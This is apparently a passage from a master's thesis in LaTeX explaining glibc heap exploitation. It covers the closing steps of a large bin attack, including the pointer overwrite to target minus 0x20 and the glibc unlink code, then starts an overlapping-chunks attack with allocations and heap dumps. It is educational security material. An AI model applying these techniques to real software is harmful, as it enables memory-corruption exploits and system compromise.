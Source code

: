 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.

\begin{lstlisting}[frame=tlrb]

unsorted\_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

large\_bins[63]: fw=0x555555559290, bk=0x555555559290
Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)

 \end{lstlisting}
 
The next step is to put the target address - 0x20 in the p1->bk\_nextsize . As we mentioned before, Just \lb{} chunk chunks use this pointer, they point to the next biggest chunk in the link list.

\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
 
The last step is to allocate a bigger chunk, so, p2 moves to a larger chunk. When p2 move to large chunk, the heap manager write the address of p2 inside p1->bk\_nextsize->fd\_nextsize as the code of \libc{} show:

\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
 \end{lstlisting}
 
This attack works on \libc{} below 3.0.

\section{Overlapping chunks}
The goal is to have two chunks that write data in one of them and overwrite the other one data. We discuss this attack on a sample, first lest start 3 chunk of memory :

\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
	p2 = malloc(0x100 - 8);
	p3 = malloc(0x80 - 8);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
 \end{lstlisting}
\end{document}
